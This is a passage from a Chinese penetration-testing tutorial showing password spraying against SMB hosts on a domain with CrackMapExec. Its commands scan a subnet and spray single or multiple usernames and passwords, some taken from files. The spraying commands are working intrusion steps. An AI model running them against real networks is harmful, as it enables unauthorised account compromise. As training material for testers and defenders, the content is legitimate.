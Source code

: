 ![image-20230109011826066](../../images//image-20230109011826066.png)

3.3.3 CrackMapExec 对域内进行密码喷洒

CrackMapExec（CME）是一款域内后渗透利用工具，使用方法比较多，此处只演示密码喷洒功能。在 Kali当中默认已经安装好。

```
##探测smb服务的开发情况
crackmapexec smb 172.16.0.0/24

##指定用户名及密码进行喷洒
crackmapexec smb 172.16.0.0/24 -u user.io -p 'Fsec.io!'  (对单个用户单个密码)
crackmapexec smb 192.168.11.228-245 -u ad-user -p 'XCs@2215.' 'Fsec.io!' （对单个用户多个密码）
crackmapexec smb 192.168.11.228-245 -u ad-user hhw -p 'XCs@2215.' '123.bmk!!' （对多个用户多个）
crackmapexec smb 192.168.11.110-228 -u ~/name.txt -p ~/pass.txt     （指定文件）
```

![image-20230109012550037](../../images//image-20230109012550037.png)

